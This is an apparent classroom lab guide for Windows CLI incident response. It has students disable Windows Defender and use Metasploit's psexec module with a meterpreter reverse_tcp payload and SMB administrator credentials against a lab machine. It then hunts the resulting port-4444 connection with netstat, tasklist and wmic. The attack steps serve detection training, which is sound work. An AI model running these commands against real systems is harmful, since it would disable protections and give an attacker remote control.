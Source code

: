 # Windows CLI

In this lab, we will create **malware**, run it, and use the tools we went through in the slides to look at what an attack looks like on a live system.  

One of the best ways to learn is to actually just dig in and do it.  

Let’s get started by opening a terminal.  

![](attachments/OpeningKaliInstance.png)

Alternatively, you can open a **Kali** instance by clicking the **Kali** logo in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Before going any further, we need to ensure that **Windows Defender** is disabled. To do this, open a Windows **Powershell** by clicking the icon in the taskbar.

![](attachments/OpeningPowershell.png)

<pre>Set-MpPreference -DisableRealtimeMonitoring $true</pre>

![](attachments/windowscli_disabledefender.png)

Please note, if you get red errors that say 

<pre>A general error occurred that is not covered by a more specific error code.</pre> 


That is OK!  It means **Defender** was disabled.  We run the above command to ensure that it is off for this lab.  It has a sneaky way of turning back on again...

Next, set a password for the Administrator account that you can remember

<pre>net user Administrator password1234</pre>

Please note, that is a very bad password.  Come up with something better. But, please remember it.

Now that we disabled **Windows Defender**, we can head back to our **Kali** terminal.

Within the terminal, please run the following command:

<pre>ipconfig</pre>>

Please note your Windows IP address.

Please note your IP address for the **ADHD Linux system** on a piece of paper:

We need to gain root access within our **Kali** terminal. To do that, run the following command:

<pre>sudo su -</pre>

Next, we will start the **Metasploit** handler with the following command:

<pre>msfconsole -q</pre>

It will take a second to connect, be patient!

When connected, our terminal will look like this.

![](attachments/windowscli_msfconnected.png)

Next, run the following command:

<pre>use exploit/windows/smb/psexec</pre>

![](attachments/windowscli_useexploit.png)

We will continue by running this command to set the location of the payload:

<pre>set PAYLOAD windows/meterpreter/reverse_tcp</pre>

We also need to set the **RHOST IP** by using the following command:

<pre>set RHOST 10.10.1.209</pre>

![](attachments/windowscli_sets.png)

**Remember, your IP will be different!**

Next, we need to set the **SMB** username and password. 

<pre>set SMBUSER Administrator</pre>

<pre>set SMBPASS T@GEq5%r2XJh</pre>

Remember, your password will be different!  I hope!!!

It should look like this:

![](attachments/windowscli_setuserpass.png)

Now, we can run the exploit command

<pre>exploit</pre>

![](attachments/windowscli_exploit.png)

While there is not much here for this lab, it is key to remember that these two commands would help us detect an attacker that is mounting shares on other computers (net view).  It would also tell us if an attacker had mounted a share on this system (net session). 

We are not done with network connections yet.  Lets try looking at our malware!

Go ahead an open an instance of **Windows PowerShell**.

![](attachments/OpeningPowershell.png)

Run the following command:

<pre>netstat -naob</pre>

![](attachments/windowscli_netstat.png)

Well, that is a lot of data. This is showing us which ports are open on this system **(0.0.0.0:portnumber)** or **(LISTENING)**.
As well as the remote connections that are made to other systems **(ESTABLISHED)**.  In this example, we are really interested in the **ESTABLISHED** connections:

![](attachments/windowscli_established.png)

Specificly, we are interested in the connection on port 4444 as we know this is the port we used for our malware.

Now, let's drill down on that connection with some more data:

<pre>netstat -f</pre>

I like to run **"-f"** with netstat to see if there are any systems with fully qualified domains that we may be able to ignore. 

![](attachments/windowscli_-f.png)

Now we see our last connection with the **port 4444**.

Let's get the Process ID **(PID)** from the above screenshot so we can dig a little deeper.

![](attachments/windowscli_pid.png)

We will start with tasklist  

<pre>tasklist /m /fi "pid eq [PID]"</pre>

**YOUR PID WILL BE DIFFERENT!**

![](attachments/windowscli_tasklist.png)

We can see the loaded **DLL's** above.  As we can see, there is not a whole lot to see here:

Let's keep digging with **wmic**:

<pre>wmic process where processid=[PID] get commandline</pre>

![](attachments/windowscli_wmic.png)

Ahh!!  Now we can see that the file was launched from the **command line**!  We know this because there are no options.

Let's see if we can see what spawned the process with **wmic**.

<pre>wmic process get name,parentprocessid,processid | select-string [PID]</pre>

![](attachments/windowscli_selectstring.png)

Lets go through the steps we took to hunt for a malicious process

1. We found its parent process ID.  

2. We did a search on that process ID.  

3. As you can see above, it was launched by the cmd.exe process.  

4. Note that the search we just did may turn up some other things launched by the command line as well.

Now, go back to the MetaCTF Cloud Lab dashboard and destroy this lab with the Destroy Lab button.

Then, reset it with the Start Lab button.

***

[Back to Navigation Menu](/IntroClassFiles/navigation.md)








 

